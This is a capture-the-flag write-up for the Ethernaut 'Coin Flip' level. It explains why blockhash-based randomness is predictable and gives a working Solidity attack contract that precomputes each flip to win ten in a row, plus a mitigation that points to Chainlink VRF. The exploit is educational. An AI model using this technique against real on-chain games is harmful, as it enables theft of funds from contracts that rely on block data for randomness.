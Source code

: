 ```yaml
---
title: Level 3 - Coin Flip
slug: level-3
published: 05-15-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut3.svg
---
```


## Objectives

1. Correctly guess 10 coin flips in a row.

## Vulnerabilities

### Block data is a bad source of randomness.

Relying on `block.timestamp`, or `blockhash` is a **bad source of randomness that can be exploited**.

In this contract, the logic behind determining the result is available for anyone to use in a hack contract. Thus
anyone can _determine the correct answer_ at the same time as calling the `flip` function.

## Exploit

1. Write and deploy a hack contract similar to the following one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip target;

    event Log(uint wins, string message);

    constructor(address _targetAddress) {
        target = CoinFlip(_targetAddress);
    }

    function getWins() public view returns(uint) {
        return target.consecutiveWins();
    }

    function cheatFlip() public{
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        target.flip(guess);
    }
}
```

2. Call the `cheatFlip` function 10 times in a row to win the game.

## Suggested mitigation

- Use an oracle like _Chainlink_ for a safer source of randomness.

## Further reading

- SWC-120 - Weak source of randomness Chain Attributes <ExternalLink href={"https://swcregistry.io/docs/SWC-120"} />

- Get a random number by Chainlink <ExternalLink href="https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number" />
